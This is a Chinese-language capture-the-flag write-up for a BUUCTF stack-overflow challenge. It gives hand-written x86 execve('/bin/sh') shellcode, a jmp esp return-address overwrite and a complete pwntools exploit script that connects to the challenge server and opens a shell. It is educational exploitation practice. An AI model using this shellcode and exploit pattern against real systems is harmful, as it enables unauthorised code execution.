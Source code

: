 ### 汇编 ShellCode 注入

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67dc066388c538a9b5c20df4.png)

明显存在栈溢出

![](https://pic1.imgdb.cn/item/67dc071088c538a9b5c20e1d.png)

直接生成 payload

```python
context(log_level = 'debug', arch = 'i386', os = 'linux')
shellcode=asm(shellcraft.sh())
```

但是长度过多

![](https://pic1.imgdb.cn/item/67dc082988c538a9b5c20e66.png)

这样写 shellcode 的长度很短，能够写入栈

```python
shellcode ='''
xor eax,eax               # eax 置 0
xor edx,edx				 # edx 置 0
push edx				 # 将 0 入栈，标记了 "/bin/sh"的结尾
push 0x68732f2f           # 传递 "/sh"，为了 4 字节对齐，使用 //sh，这在 execve() 中等同于 /sh
push 0x6e69622f           # 传递 "/bin"”
mov ebx,esp               # 此时 esp 指向了 "/bin/sh"，通过 esp 将该字符串的值传递给 ebx
mov al,0xB                # eax 置为 execve 函数的中断号
int 0x80                  # 调用软中断
'''
shellcode = asm(shellcode)
```

在 hint 中发现有个 `jmp esp`

![](https://pic1.imgdb.cn/item/67dc0b6a88c538a9b5c20f1c.png)

shellcode 现在写入栈了，因为 esp 寄存器指向栈顶

现在将返回地址写成 jump_esp，重新跳到栈上

手动写入 `sub esp,40;call esp` 开栈执行，即可获取 shell

```python
payload = shellcode.ljust(0x24,'\x00')+p32(jump_esp)
payload += asm("sub esp,40;call esp")
```

```python
from pwn import *

p = remote('node5.buuoj.cn',25741)

context(arch='i386',os='linux')
jump_esp = 0x8048554

shellcode = '''
xor eax,eax
xor edx,edx
push edx
push 0x68732f2f
push 0x6e69622f
mov ebx,esp
mov al,0xB
int 0x80
'''

shellcode = asm(shellcode)

payload = shellcode.ljust(0x24,b'\x00') + p32(jump_esp)

payload += asm("sub esp,40;call esp")

p.sendline(payload)
p.interactive()
```


